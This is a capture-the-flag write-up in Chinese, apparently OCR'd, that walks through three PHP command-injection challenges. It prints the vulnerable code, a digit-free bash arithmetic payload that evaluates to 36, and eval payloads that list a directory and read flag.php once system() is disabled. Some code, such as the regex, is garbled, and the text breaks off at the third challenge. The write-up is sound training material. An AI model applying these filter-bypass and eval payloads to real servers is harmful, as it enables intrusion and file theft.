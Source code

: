 ByL5qO.md.png

web57~构造数字
php

 还能炫的动吗？
flag in 36.php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match(;[a-z][0-9]`#'`%x09x26x0a.,-=[i, $c)){
        system(cat .$c..php);
    }
}else{
    highlight_file(__FILE__);
}
这里只需要构造 传参 36 即可，但是数字字符都被ban了。

paylaod

$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~
$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~
$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~
$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~
$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~
$(())))$((~$(())))$((~$(())))))))
linux echo 一下是 36.

web58~readfile读取
php

 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}
post构造c=system('ls');结果

Warning system() has been disabled for security reasons in varwwwhtmlindex.php(17)  eval()'d code on line 1
system 函数被 ban了

Warning shell_exec() has been disabled for security reasons in varwwwhtmlindex.php(17)  eval()'d code on line 1
构造c=print_r(scandir('.'));.得到

Array ( [0] = . [1] = .. [2] = flag.php [3] = index.php ) 
payload

c=readfile('flag.php');
web59~show_source读取
php

 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}
同上关但是，
